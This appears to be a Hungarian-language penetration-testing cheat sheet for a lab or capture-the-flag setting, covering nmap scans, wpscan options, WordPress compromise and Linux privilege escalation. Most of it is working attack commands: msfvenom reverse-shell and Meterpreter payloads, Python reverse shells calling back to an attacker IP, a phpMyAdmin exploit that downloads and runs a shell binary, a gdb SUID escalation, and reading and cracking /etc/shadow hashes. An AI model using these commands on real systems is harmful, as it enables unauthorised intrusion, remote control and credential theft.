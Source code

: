 ## Advanced ping
``` sh
sudo nmap -sn <IP>
```
## Port scan
``` sh
sudo nmap -sS -sV <IP>
```

## Dirbuster wordlist
``` sh
/usr/share/wordlists/dirb/common.txt
```

## Password list 
``` sh
/usr/share/wordlists/rockyou.txt
```

## Listener
``` sh
nc -lvnp 4444
```
``` sh
nc -lvnp 5555
```

## PHP reverse shell generator
``` sh
msfvenom -p php/reverse_php LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
Ezt fel kell tölteni csinálni egy listeneret és lefuttatni a Target gépen, ezáltal kapunk egy PHP reverse shellt

## SHELL Chaining PHP esetén (nem PHP-nál is működik)
``` python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
``` python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Shell upgrade
``` python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

# wpscan
wpscan --help
* --url URL    --> url megadása
* -o FILE      --> fájlba mentés
* -f FORMAT    --> mentés formátuma
* --detection-mode MODE --> passive, aggressive, mixed
* --user-agent AGENT --> agent megadása
* --random-user-agent
* --http-auth login:password --> Basic auth login
* -e --> mire vagyunk kíváncsiak
  * -e vp --> sérülékeny plugin
  * -e u --> minden user meghatározása
* -P --> jelszavak brute-forceolása
* --login-uri URI  --> ha az oldal nem az eredti IP-n található hanem máshol pl.: http://40.0.4.16/secret
* --stealthy --> elrejtőzés

## Web server megtalálása
Appearance --> Theme editor
Érdemes a comments.php-t buherálni
1. Shell kód generálása (msfvenom)
2. comments.php-be beírni
3. Listener attack gépen (nc)
4. Egy komment megnyitása

Vagy ami könnyebb v

## WordPress feltörés shell generálás
msfconsole
```
search wp admin shell
```
Ha megvan a szám akkor
```
use {szám}
```
vagy
```
use exploit/unix/webapp/wp_admin_shell_upload
```

## Meterpreter php script
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
msfconsoleban
```
use exploit/multi/handler
```
Ez csak handler!!!

## betörés exploti python
3 külön terminal majd egyiken egy Listener majd egy másikban egy reverse shell(1) és egy python webserver ott ahol a exploit db s script van(python)(2) ezután feltöltjük(3). (1 2 3 egy mappában történjen)
```
msfvenom -p linux/x64/shell_reverse_tcp LPORT=4444 LHOST=30.0.1.17 -f elf > shell.elf
```
```
python3 -m http.server
```
```
python3 50457.py  40.0.5.16 80 /phpmyadmin pma pmapass "cd /tmp; rm -rf /tmp/shell.elf; wget http://30.0.1.17:8000/shell.elf;chmod 777 /tmp/shell.elf;/tmp/shell.elf"
```

# Linux PE (Privilige Excalaltion)
1. SUID bitek("meghatalmazás"): Ha egy futtatható fájlra ezt engedélyezzük, akkor a fájl nem az én jogaimmal indul majd el
   ### SUID bitek megkeresése
   ```
   find / -perm -u=s 2>/dev/null
   ```
   ### Használható fájlok
   - /usr/sbin/pppd
   - /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   - /usr/lib/openssh/ssh-keysign
   - /usr/lib/xorg/Xorg.wrap
   - /usr/libexec/polkit-agent-helper-1
   - /usr/bin/sudo
   - /usr/bin/su
   - /usr/bin/fusermount3
   - /usr/bin/pkexec
   - /usr/bin/gpasswd
   - /usr/bin/chfn
   - /usr/bin/mount
   - /usr/bin/chsh
   - /usr/bin/umount
   - /usr/bin/newgrp
   - /usr/bin/ntfs-3g
   - /usr/bin/passwd

    Ha van gdb
    ```
    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
    ```
2. Sudo jogok: sudo -l
   - /etc/passwd  --> cat vagy ls -l  vagy /etc/shadow(jelszavak vannak itt)
     - Ha a jognál + jel van akkor
     ```
     getfacl /etc/passwd
     ```
     - catelés után jelszavak keresése $ on ként vannak részek első típus második is majd utána só és az utolsó a jelszó, ha megvan egy fájlba elmentjük majd `john`
       y: cript típus
     - jelszó feltörése: john (the ripper) vagy hashcat
       ```
       john <jelszofajl> --wordlist=/usr/share/wordlists/rockyou.txt (--format=crypt --> ha y típus)

       ```
 3. Python library hyjacking
